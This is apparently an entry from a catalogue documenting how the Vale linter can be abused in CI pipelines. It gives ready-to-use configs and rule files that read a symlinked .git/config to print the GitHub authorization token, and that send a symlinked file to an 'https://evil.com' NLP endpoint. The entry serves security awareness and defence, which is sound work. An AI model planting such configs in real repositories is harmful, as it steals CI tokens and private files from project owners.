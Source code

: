 ```yaml
---
title: Vale
tags:
 - cli
 - config-file
references: 
 - https://vale.sh/
 - https://github.com/errata-ai/vale
 - https://github.com/errata-ai/vale-action
files: [.vale.ini]
---
```


`vale` is an open-source meta-linting tool that supports external style through its extension system.

## Tengo

`vale` can use [Tengo](https://github.com/d5/tengo) scripting language to run a script, which is limited to only "text", "fmt" and "math" go modules.
This allow exfiltration of GitHub token.
 - Add a symbolic file pointing to `.git/config` such as `pwned`
 - Set the `.vale.ini` to:

```ini
StylesPath = .
[pwned]
BasedOnStyles = myStyle
```

   - Add `./myStyle/read.yml`:

```yaml
extends: script
message: ''
scope: raw
script: |
 fmt := import("fmt")
 text := import("text")
 found := text.re_find("AUTHORIZATION: .*", scope, 1)
 if (found != undefined){
 fmt.println(text.replace(found[0][0].text, '=', '_', 100))
 }
```

## NLPEndpoint

`vale` gives access to the NLPEndpoint which can be used to exfiltrate data if the rule has the `sentence` scope.
 - Add a symbolic file named `.txt` pointing to the target file
 - Set the `.vale.ini` to:

```ini
StylesPath = .
NLPEndpoint = 'https://evil.com'
[pwned.txt]
Lang = 'fr'
BasedOnStyles = myStyle
```

 - Add `./myStyle/read.yml`:

```yaml
extends: existence
scope: sentence
message: ''
raw:
 - .*
```

